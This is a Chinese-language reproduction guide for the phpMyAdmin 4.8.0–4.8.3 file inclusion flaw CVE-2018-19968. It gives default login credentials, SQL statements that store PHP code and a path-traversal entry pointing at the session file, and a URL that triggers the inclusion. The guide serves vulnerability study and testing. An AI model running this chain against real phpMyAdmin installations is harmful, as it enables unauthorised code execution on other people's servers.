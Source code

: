 ```yaml
---
title: （CVE-2018-19968）Phpmyadmin 文件包含漏洞
id: zhfly3083
---
```


# （CVE-2018-19968）Phpmyadmin 文件包含漏洞

## 一、漏洞简介

Transformation是phpMyAdmin中的一个高级功能，通过Transformation可以对每个字段的内容使用不同的转换，每个字段中的内容将被预定义的规则所转换。比如我们有一个存有文件名的字段 ‘Filename’，正常情况下 phpMyAdmin 只会将路径显示出来。但是通过Transformation我们可以将该字段转换成超链接，我们就能直接在 phpMyAdmin 中点击并在浏览器的新窗口中看到这个文件。

通常情况下Transformation的规则存储在每个数据库的pma__column_info表中，而在phpMyAdmin 4.8.0~4.8.3版本中，由于对转换参数处理不当，导致了任意文件包含漏洞的出现。

## 二、漏洞影响

Phpmyadmin 4.8.0~4.8.3

## 三、复现过程

1、首先登陆进后台，这里默认是root, toor

![image](../img/a4b5bebf12d3983bc6ae6845cadd02f3.png)

2、创建数据库，并将PHP代码写入SESSION文件中

```
CREATE DATABASE foo;
CREATE TABLE foo.bar ( baz VARCHAR(100) PRIMARY KEY );
INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>'; 
```

访问http://www.0-sec.org/chk_rel.php?fixall_pmadb=1&db=foo在数据库foo中生成phpMyAdmin的配置表。

![image](../img/07cf551b7d9217f5021975d024ac1776.png)

将篡改后的Transformation数据插入表pma__columninfo中将sess_***中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值，抓包查看session id，如下

![image](../img/800a3c5bf8dd880a0219d2450fb46d1c.png)

```
INSERT INTO pma__column_info SELECT '1', 'foo', 'bar', 'baz', 'plop', 'plop', 'plop', 'plop', '../../../../../../../../tmp/sess_***','plop'; 
\#将sess_***中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值 
```

![image](../img/5efac406f0811d415d0d16ea22bdbcd8.png)

然后访问

http://www.0-sec.org/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[multi_edit][][]=baz&clause_is_unique=1 就能自动包含刚才插入数据库表的恶意代码

![image](../img/30961b75c3789cf7a3f64f83f67911c8.png)